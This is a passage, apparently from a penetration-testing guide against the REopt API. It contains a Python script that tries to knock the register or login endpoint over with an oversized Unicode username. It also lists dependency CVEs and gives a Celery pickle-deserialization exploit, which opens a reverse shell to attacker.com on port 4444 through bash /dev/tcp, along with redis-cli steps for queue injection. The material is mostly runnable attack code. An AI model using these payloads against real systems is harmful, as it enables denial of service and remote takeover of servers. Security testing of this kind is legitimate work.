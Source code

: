 ```python
# username_dos.py
import requests

target = "http://localhost:8000/api/v1/register"  # or login

# Craft malicious username
payload = {
    "username": "𝕌𝕤𝕖𝕣" * 100000,  # Mathematical bold capitals
    "password": "test123",
    "email": "attacker@evil.com"
}

print("[*] Sending username Unicode DoS...")
try:
    r = requests.post(target, json=payload, timeout=5)
    print(f"[-] Attack failed: {r.status_code}")
except requests.exceptions.Timeout:
    print("[+] Server timeout - DoS successful!")
except Exception as e:
    print(f"[+] Server error: {e}")
```

---

### 4.4 Dependency Exploitation

**Strategy:** Exploit vulnerabilities in REopt's dependencies.

**Step 1: Audit Dependencies**

```bash
# Check what dependencies are installed
pip list

# Run security audit
pip-audit

# Expected vulnerable packages (in older installations):
# - Celery < 5.2.2 (CVE-2021-23727 - Arbitrary code execution)
# - Pillow < 9.0.0 (Multiple CVEs)
# - requests < 2.26.0 (CVE-2021-33503)
# - cryptography < 39.0.1 (CVE-2023-23931)
```

**Step 2: Exploit Celery (if used)**

```python
# celery_exploit.py
# If REopt uses Celery with pickle serialization (insecure default)

import pickle
import os
from celery import Celery

class RCE:
    def __reduce__(self):
        # Execute reverse shell when unpickled
        cmd = "bash -i >& /dev/tcp/attacker.com/4444 0>&1"
        return (os.system, (cmd,))

# Serialize malicious object
payload = pickle.dumps(RCE())

# If we can inject into Celery queue (via Redis/RabbitMQ):
# redis-cli -h localhost -p 6379
# LPUSH celery "malicious_pickle_data"
```